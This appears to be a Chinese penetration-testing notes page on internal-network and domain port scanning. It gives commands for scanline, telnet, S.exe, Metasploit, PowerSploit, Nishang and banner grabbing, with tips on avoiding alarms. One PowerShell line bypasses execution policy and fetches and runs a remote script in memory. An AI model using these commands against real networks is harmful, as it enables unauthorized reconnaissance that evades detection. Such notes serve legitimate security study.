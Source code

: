 
3.利用常规`tcp/udp端口扫描`探测内网
工具：`scanline`   (比较老, 但是好用，可在所有win版本使用，动静小)
```bash
# -t 是tcp端口， -u是udp端口
sl -h -t 22,80-89,110,389,445,3389,1099,1433,6379,27017,7001,8080,1521,3306,5432 -u 53,161,137,139 -O c:\windows\temp\sl_res.txt -p 192.168.1.1-254 /b

```



####  <font color=red> 扫描域内端口 </font>
通过端口，不仅能了解目标主机所开放的服务，还能找出其开放服务的漏洞、分析目标网络的拓扑结构等
- 端口的banner信息
- 端口上运行的服务
- 常见应用的默认端口

**工具：**
- 1.telent命令(针对单个，肯定不会触发报警)
```bash
telnet DC1 22  # 查看某台主机某个端口是否开放
```
- 2.S扫描器
```bash
# 早期的工具，支持大网段
S.exe TCP 192.168.1.1 192.168.1.112  22,445,3389,1433,6379,8080,80,23,21,25,110,3306,1521,111,445,7001  256  /Banner /save
# 结果默认保存在安装目录下的result.txt文件中
```
- 3.Metasploit内置的端口扫描模块:
```bash
search portscan
use auxiliary/scanner/portscan/tcp  # 还有其他模块
set ...
run
```
- 4.PowerSploit下的`Invoke-portscan.ps1`脚本 (不会下载到本地)
```bash
powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/Invoke-Portscan.ps1');Invoke-portscan -Hosts 192.168.1.0/24 -T 4 -ports '445,1433,5432,8080,3389,22' -oA C:\windows\temp\log.txt" 
```
- 5.NiShang的`Invoke-PortScan`模块
```bash
Get-Help Invoke-PortScan -full
# ResolveHost 解析主机名
Invoke-PortScan -StartAddress 192.168.0.1 -StopAddress 192.168.0.255 -ResolveHost
```
- 6.nmap
- 7.masscan
- 8.其他端口扫描工具

>注意扫描是否会触发IDS等设备


**端口Banner信息**
```bash
通过扫描发现了端口，可以使用客户端连接工具或nc，获取服务端的Banner信息 
获取Banner信息之后，可以在漏洞库中查找相应的CVE编号的POC/Exp, 在Exploit-DB、Seebug、安全焦点的BugTraq 等平台查看相关漏洞利用工具，然后到目标系统中验证漏洞是否存在，从而有针对性地进行安全加固
```
